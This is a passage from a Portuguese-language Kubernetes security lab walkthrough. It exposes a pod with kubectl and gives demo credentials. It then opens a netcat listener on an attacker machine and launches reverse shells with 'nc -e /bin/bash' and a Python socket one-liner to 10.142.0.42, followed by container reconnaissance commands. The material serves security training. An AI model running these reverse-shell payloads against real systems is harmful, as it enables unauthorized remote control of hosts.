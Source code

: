 Service:

```
kubectl expose pod -n production web-app --port=8080 --target-port=8080 --type=NodePort --name=web-app-role
```

Verificando tudo o que criamos:
```
kubectl get no -o wide
kubectl get svc -n production 
```

Agora basta acessar nossa aplicação no seu navegador **IP do node + Node port**.

Para autenticar na aplicação vamos usar as seguintes credenciais:
```
User: foo 
Pass: bar
```

Agora vamos abrir a porta 32000 em nossa máquina(Máquina atacante) para receber a conexão:
```
sudo nc  -l 32000
```

No terminal web da aplicação vamos executar nossa shell:

Aqui com 2 exemplos (NC e python)

Bash:
```
nc -e /bin/bash "IP da sua máquina" 32000
```
Python:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.142.0.42",32000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Com o laboratório criado e configurado vamos começar o processo de reconhecimento do ambiente, tentando identificar onde e o que estamos rodando.


Primeiro identificarmos com qual usuário estamos logados:
```
id
```

A aplicação está rodando com o usuário appuser, então vamos ver quais processos estão em execução.
```
ps aux
```

Existe um número muito baixo de processos. Ter poucos processos é o primeiro indicativo que a aplicação é em um container. Por default um container roda com o usuário root mas isso pode ser alterado.

Levantaremos informações sobre o release do S.O.
```
uname -a ; cat /etc/*-release
```
